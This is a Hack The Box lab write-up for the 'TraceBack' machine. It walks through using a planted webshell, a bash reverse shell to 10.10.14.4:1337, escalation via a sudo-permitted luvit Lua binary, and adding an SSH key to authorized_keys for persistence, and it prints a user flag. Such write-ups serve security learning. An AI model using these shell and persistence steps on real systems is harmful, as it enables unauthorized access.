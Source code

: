 # TraceBack
> Write-up author: jon-brandy


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5389983-7994-42b7-87d6-c39c262b8597)


## Lessons Learned:
1. Enumeration.
2. Utilizing dropped backdoor.
3. Writing Lua.
4. Generating ssh-key to get more stable shell.
5. Manipulating SSH Motd.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC traceback.htb --min-rate 1000 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-25 19:53 PDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9625518e6c830748ce114b1fe56d8a28 (RSA)
|   256 54bd467114bdb242a1b6b02d94143b0d (ECDSA)
|_  256 4dc3f852b885ec9c3e4d572c4a82fd86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.67 seconds
```

1. Based from the nmap results above, seems the machine runs web application at port 80 and opens ssh login at port 22.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0ed872db-def1-40fd-b05b-f01b2f8d6548)


2. Seems the webapp is already compromised and the attacker left a backdoor which is accessible he said.
3. Hence let's execute directory listing using **dirsearch**.
4. However, dirsearch resulting to none. It means the webshell filename is not common.
5. Reviewing the message shown, resulting to no clue other than searching the `Xh4H` name online.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f7d67e1f-c1d5-4919-b0f7-3617db19484b)



6. Traversing on the internet resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5d980a2-9a97-4b54-a70e-a82e3600451a)


7. Adding **webshell** to our search query, resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75d799d5-5024-41b6-bf40-3d71becb4ddc)


8. The first result, should be our interest.

> GITHUB

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1384da27-8377-4203-b854-bb513772c9e8)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e6c49331-c7e6-4672-9fe2-3b2ca7ab052a)


9. Enumerating each webshell file, the backdoor dropped is --> `smevk.php`.

> Enter creds --> `admin:admin` (shown at the source code).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/363c04a5-96e9-4972-b799-ee967df3f46e)


10. Indeed it seems the best backdoor 🤲🏻.
11. Long story short, after traversing to `/home/webadmin`, found a note from sysadmin team.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/051e6bac-d543-485c-8429-a6da4faa6d3b)

12. Reviewing the bash history file, found that a binary named **luvit** seems inside the sudo permission.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd1ac823-a2ee-4330-ad17-afd3a7a4c729)


13. This could be used for our lateral movement later.
14. Great! Anyway let's get more comfy enumeration by getting a reverse shell.
15. I used simple bash reverse shell:

```txt
bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1'
```

16. Set up a listener at port **1337** than enter it on the **execute** box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ef6adcff-da39-4c24-bc8b-1fe47e9bbeea)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a27e9b7-5e5d-4ad5-9b8c-70f7baa8668c)


17. Remembering the **luvit** binary is inside the **sysadmin** home directory, we need to traverse there, but currently we are denied.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7ab4b96-ae8f-45df-8825-c177f4ff3123)


18. BUT thing to note, upon checking the sudo permission seems **luvit** is executable by any user.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30fcc402-ea95-46e5-83d8-9b12e350fb76)


19. Remembering we can specify a username, hence we could gain access to sysadmin's home directory.
20. Let's use the **luvit** binary.

===

### USING LUVIT

- Sending shell spawn LOCs to lua.

```
echo "require('os');" > sysad.lua
echo "os.execute('/bin/bash');" > sysad.lua
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b472f3aa-ca88-4f55-93a5-b44f419c6402)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/54a0f835-d4c9-4fda-a9d1-840b85d5aa60)



## USER FLAG

```
4835038ff249e1ae23de765fc1110e3d
```

21. Great! Now let's change our shell mode to interactive by executing `bash -i`, then add our ssh-key to sysadmin's authorized_keys.
22. With this, we can have access directly without dropping reverse shell.

```console
Generate ssh key at our local machine.

┌──(brandy㉿bread-yolk)-[~/.ssh]
└─$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/brandy/.ssh/id_ed25519): sysadmin
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in sysadmin
Your public key has been saved in sysadmin.pub
The key fingerprint is:
SHA256:ExUTsfRZaVupYJr+VAwDiB+QPtNOGz92d+chutc2U5A brandy@bread-yolk
The key's randomart image is:
+--[ED25519 256]--+
|     .+ ..O+  ...|
|     o o o O oo..|
|    . o o = B..+ |
|     + = +   +E  |
|      = S   .  . |
|       o * o o oo|
|        . = o +.+|
|           o . =.|
|           .o . o|
+----[SHA256]-----+
                                                                                                                                                                                             
┌──(brandy㉿bread-yolk)-[~/.ssh]
└─$ cat sysadmin.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGlvFYfrNpHf4A8gXc+IB+B8xYMYE3ajJkruV47FkzhJ brandy@bread-yolk
```

23. Then, add it to sysadmin's authorized_keys file.

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGlvFYfrNpHf4A8gXc+IB+B8xYMYE3ajJkruV47FkzhJ brandy@bread-yolk" >> authorized_keys
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6869268c-1acf-457a-96ca-95ca24c535b4)


#### NOTES:

```
Remember to execute the ssh inside .ssh directory and don't forget to execute chmod 400 to id_rsa file.
```


24. Awesome, to gain root, I used **linpeas** to identify misconfigurations or vulns reside in this machine which might help us to gain root.
25. Also I used **pspy64** to identify cron job processes run without the need for root.
26. Long story short, after reviewing the **pspy64** result, found a process which executed as root user right after I change the shell mode to interactive.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/59361f7d-5dbc-4dcd-a84e-13df3b93bae2)


27. Reviewing the next activity, it gets executed again at every 30 seconds.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/98ea3306-5bef-4e79-a979-0d9d8d4f2546)


28. Seems `/etc/update-motd.d/` should be our target by now.



## IMPORTANT LINKS

```

```
